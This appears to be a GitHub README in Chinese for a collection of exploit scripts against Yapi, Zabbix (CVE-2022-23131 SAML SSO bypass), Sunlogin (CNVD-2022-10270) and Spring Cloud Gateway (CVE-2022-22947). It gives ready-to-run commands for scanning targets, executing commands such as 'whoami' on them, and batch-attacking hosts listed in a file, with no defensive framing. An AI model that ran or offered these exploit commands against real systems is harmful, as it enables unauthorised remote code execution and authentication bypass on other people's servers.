 # vuln_script
漏洞脚本

```
Yapi远程命令执行漏洞.py

```

## CVE-2022-23131 Zabbix SAML SSO认证绕过     CVE-2022-23131.py
```
python3 CVE-2022-23131.py -u http://127.0.0.1 -a Admin
```
![image](https://user-images.githubusercontent.com/33044636/156746852-69ffce94-4d5b-4cea-bfe5-688304ec08aa.png)



## 向日葵存在命令执行漏洞(CNVD-2022-10270)     sunlogin_rce.py

## poc
```
python3 sunlogin_rce.py --scan -u 10.108.3.74
```
![image](https://user-images.githubusercontent.com/33044636/162583279-56122224-ba29-4264-9acc-470be16c615a.png)

## rce
```
python3 sunlogin_rce.py --rce -u 10.108.3.74 -p 21021
```

![image](https://user-images.githubusercontent.com/33044636/162583376-53735402-e789-4822-a78a-c467013a63b3.png)



## Spring Cloud Gateway 远程代码执行漏洞       CVE-2022-22947.py

### 单个验证

具体的参数请看使用说明 `python3 CVE-2022-22947.py -h`

```
python3 CVE-2022-22947.py -u http://10.108.0.52:8080 -x whoami
```
![image](https://user-images.githubusercontent.com/33044636/156746308-40ff11ec-fdd1-4559-8d19-8bbc94a58ae0.png)


### 批量验证

```
python3 CVE-2022-22947.py -f url.txt
```
![image](https://user-images.githubusercontent.com/33044636/156746195-85182e7c-957f-49a5-b029-4c4e9ff6da28.png)
